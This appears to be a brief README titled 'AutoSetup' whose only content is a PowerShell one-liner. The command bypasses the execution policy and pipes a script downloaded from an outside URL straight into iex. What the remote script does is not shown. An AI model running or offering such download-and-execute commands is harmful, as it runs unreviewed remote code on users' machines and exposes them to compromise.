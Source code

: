 # AutoSetup

Command:
---------------------------------------------------------------------------------------------------------------------------
Set-ExecutionPolicy Bypass -Scope Process -Force;iex ((New-Object System.Net.WebClient).DownloadString('https://s.js0.ch'))
---------------------------------------------------------------------------------------------------------------------------
